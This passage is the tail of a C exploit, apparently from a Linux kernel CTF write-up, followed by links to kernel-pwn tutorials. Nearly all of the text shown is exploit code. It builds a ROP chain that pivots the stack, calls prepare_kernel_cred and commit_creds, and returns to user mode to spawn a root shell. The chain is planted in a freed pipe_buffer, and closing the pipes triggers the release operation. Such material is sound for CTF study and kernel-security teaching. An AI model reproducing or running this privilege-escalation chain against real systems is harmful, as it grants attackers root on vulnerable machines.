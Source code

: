 ```c
    buf[4] = kernel_offset + PUSH_RSI_POP_RSP_POP_RBX_POP_RBP_POP_R12_RET;
    buf[5] = *(size_t*) "arttnba3";
    buf[6] = *(size_t*) "arttnba3";
    buf[7] = kernel_offset + POP_RDI_RET;
    buf[8] = (size_t) NULL;
    buf[9] = kernel_offset + PREPARE_KERNEL_CRED;
    buf[10] = kernel_offset + XCHG_RDI_RAX_DEC_STH_RET;
    buf[11] = kernel_offset + COMMIT_CREDS;
    buf[12] = kernel_offset + SWAPGS_RESTORE_REGS_AND_RETURN_TO_USERMODE + 0x31;
    buf[13] = *(size_t*) "arttnba3";
    buf[14] = *(size_t*) "arttnba3";
    buf[15] = (size_t) get_root_shell;
    buf[16] = user_cs;
    buf[17] = user_rflags;
    buf[18] = user_sp + 8; /* system() wants it : ( */
    buf[19] = user_ss;

    del(0);
    alloc(0, PIPE_BUFFER_SZ, buf);

    /* trigger pipe_buf_operations->release */
    puts("[*] trigerring pipe_buf_operations->release()...");

    close(pipe_fd[1]);
    close(pipe_fd[0]);

    return 0;
}

```

## REFERENCE

[【PWN.0x00】Linux Kernel Pwn I：Basic Exploit to Kernel Pwn in CTF](https://arttnba3.cn/2021/03/03/PWN-0X00-LINUX-KERNEL-PWN-PART-I/)

[【PWN.0x02】Linux Kernel Pwn II：常用結構體集合](https://arttnba3.cn/2021/11/29/PWN-0X02-LINUX-KERNEL-PWN-PART-II/)